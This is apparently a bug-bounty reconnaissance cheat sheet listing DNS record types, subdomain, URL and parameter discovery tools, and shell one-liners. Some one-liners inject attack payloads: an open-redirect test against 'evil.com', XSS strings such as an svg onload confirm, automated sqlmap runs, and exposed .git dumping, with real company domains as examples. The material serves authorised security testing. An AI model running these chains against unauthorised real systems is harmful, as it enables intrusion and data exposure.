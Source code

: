 ## DNS

- A -> ipv4
- AAAA -> ipv6
- CNAME -> domains
- TXT -> notes/text
- MX -> email servers
- SOA -> domains validations
- NS -> authority servers

### dig 

- https://www.cyberciti.biz/faq/linux-unix-dig-command-examples-usage-syntax/
- https://www.thegeekstuff.com/2012/02/dig-command-examples/
- https://www.hostinger.com/tutorials/how-to-use-the-dig-command-in-linux/


### Historico de subdomain

- securitytrails.com
- subdomainfinder.c99.nl
- web.archive.org
- dnsdumpster.com
- github.com/Screetsec/Sudomy

## Subdomain enum

### brute-force

- sublist3r
- subbrute
- amass

### certs e passivos

- subfinder
- certspotter
- ctfr (crt.sh)
- chaos.projectdiscovery.io

``` $ subfinder -d domain.com -silent | httpx -status | gau ```

## URL Discovery 

- gau
- hakrawler
- wfuzz
- ffuf
- dirsearch

``` $ cat domains.txt | httpx -status | gau ```

## Content Discovery

- httpx
- aquatone
- SecretFinder

``` $ cat domains.txt | httpx -status -ports 80,443,8080 -path /admin ``` 

``` $ subfinder -d domain.com -silent | aquatone ```  

## Parameter discovery

- ParamSpider
- gf
- Parht
- kxss
- gxss

``` $ python3 paramspider.py -d | kxss ```

``` $ wfuzz -c -w burp-parameter-name.txt http://domain/index.php?FUZZ=test ```
``` $ wfuzz -c -w burp-parameter-name.txt http://domain/index.php?search=FUZZ ```

## OneLiners

#### enum javascript

 ``` $ echo tesla.com | gau | subjs ```
 
 ``` $ echo tesla.com | gau | grep -iE '\.js' ```
 
 ``` $ cat tesla | httpx -status-code -mc 200 -content-type | grep 'application/json' ```
 
 ``` $ cat tesla | httpx -status-code -mc 200 | anew ```

#### xargs (carrega lista para uma tool)
 
 https://linuxhandbook.com/xargs-command/

 ``` $ xargs -a lista -I@ sh -c 'python3 paramspider.py -d "@"' ```

#### cs.github
 
 https://github.blog/2021-12-08-improving-github-code-search/


#### git exposed

 ``` $ echo domain.com | subfinder -silent | httpx -silent | anew file ```
 
 ``` $ echo domain.com | subfinder -silent | xargs -I@ sh -c 'goop @ -f' ```

 https://github.com/arthaud/git-dumper
 https://github.com/nyancrimew/goop
 
#### Open Redirect

 https://github.com/tomnomnom/qsreplace
 
 ``` $ waybackurls domain.com | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I | grep "evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done ```


#### send notifications to multiple places 

https://github.com/projectdiscovery/notify

https://crontab-generator.org/

#### port scan

 https://github.com/j3ssie/sdlookup
 
 ``` $ echo domain.com | subfinder -silent | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool' ```
 
 
 ``` $ echo doamin.com | httpx -silent -ip | awk '{print $2}' | tr -d '[]' | xargs -I@ sh -c 'echo @ | sdlookup -json | python -m json.tool' ```
 
 
#### find xss with hakrawler

 https://github.com/hakluke/hakrawler

 ``` $ echo domain.com | httpx -silent | hakrawler -subs | grep "=" | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | grep -v 'Not' ``` 
 
#### SQLi

 https://github.com/Findomain/Findomain

 ``` $ findomain -t domain.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1 ```
 
 
#### XSS with gau 

 https://github.com/s0md3v/uro

 ``` $ echo domain.com | gau | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss - payload "confirm(1)" | grep -v 'Not' ```
 
 ``` $ echo domain.com | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss - payload "confirm(1)" ```
 
 
#### Subdomain enum with JLDC

 https://github.com/brunosergi0/curlmeallsubdomains
 https://github.com/Fadavvi/Sub-Drill/blob/master/Sub-Drill.sh

 ``` $ curl -s "https://jldc.me/anubis/subdomains/att.com" | grep -Po "((http|https):\/\/)?((\w.-]*)\.([\w]*)\.([A-z]))\w+" | anew file" ```
 

#### xss with freq

 https://github.com/takshal/freq

 ``` $ echo domain.com | waybackurls | gf xss | uro | qsreplace '"><img src=x onerror-alert(1);>' | freq | grep -v 'Not' ```

## Automation 

- https://github.com/KingOfBugbounty/DockerHunt

- https://hub.docker.com/r/mswell/hacktools

``` $ echo domains | gau | hakcheckurl | grep -v '404|999|403|500' ```
